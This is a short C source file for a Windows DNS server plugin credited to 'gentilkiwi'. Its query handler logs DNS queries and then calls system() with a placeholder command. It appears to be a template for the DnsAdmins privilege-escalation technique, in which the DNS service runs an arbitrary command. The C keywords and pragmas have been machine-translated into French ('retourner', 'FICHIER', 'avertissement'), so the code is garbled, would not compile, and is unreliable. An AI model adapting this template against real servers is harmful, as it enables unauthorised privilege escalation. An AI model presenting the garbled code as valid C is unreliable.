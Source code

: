 Code : c

```

/* Benjamin DELPY `gentilkiwi`

https://blog.gentilkiwi.com

benjamin@gentilkiwi.com

Licence : https://creativecommons.org/licenses/by/4.0/

*/

#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)

{

retourner ERROR_SUCCESS ;

}

DWORD WINAPI kdns_DnsPluginCleanup()

{

retourner ERROR_SUCCESS ;

}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)

{

FICHIER * kdns_logfile;

#pragma avertissement (pousser)

#pragma avertissement (désactiver : 4996)

if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))

#pragma avertissement (pop)

{

klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);

fclose(kdns_logfile);

system("ENTREZ LA COMMANDE ICI");

}

retourner ERROR_SUCCESS ;

}

```
